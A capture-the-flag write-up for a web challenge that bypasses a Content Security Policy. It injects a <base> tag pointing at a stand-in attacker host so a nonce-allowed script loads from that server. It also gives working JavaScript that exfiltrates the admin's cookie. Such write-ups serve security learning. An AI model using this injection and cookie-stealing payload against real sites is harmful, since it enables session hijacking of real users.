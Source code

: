 ```yaml
---
description: Content Security Policy bypass using base tag
---
```


# XwaSS ftw?

> Just another typical web challenge that will be solved anyway :/\
> Link: http://128.199.3.34:1236
>
> **Author:** Kahla

In this challenge, we have HTML injection through the `src=` parameter, but the CSP does not allow the loading of arbitrary scripts.

```markup
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-6kzZgPLe1fqRq8';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```

Thankfully, the following script is included in the response, which is permitted by the `nonce`.

```markup
<script nonce=6kzZgPLe1fqRq8  src="assets/js/bootstrap.js">
```

We could therefore use the `<base>` tag to set the base URL of the document to our attacker-controlled site.

```html
?src=/img/saturn.jpg'><base href="http://ATTACKER_URL">
```

This will load the script `http://ATTACKER_URL/assets/js/bootstrap.js`, which we can host on our server:

```javascript
let img = document.createElement('img');
img.src = "/?" + btoa(document.cookie)

document.body.appendChild(img);
```

The above payload will cause the browser to fetch `/?${document.cookie}`, which will be logged on our server, allowing us to get the admin's cookie.

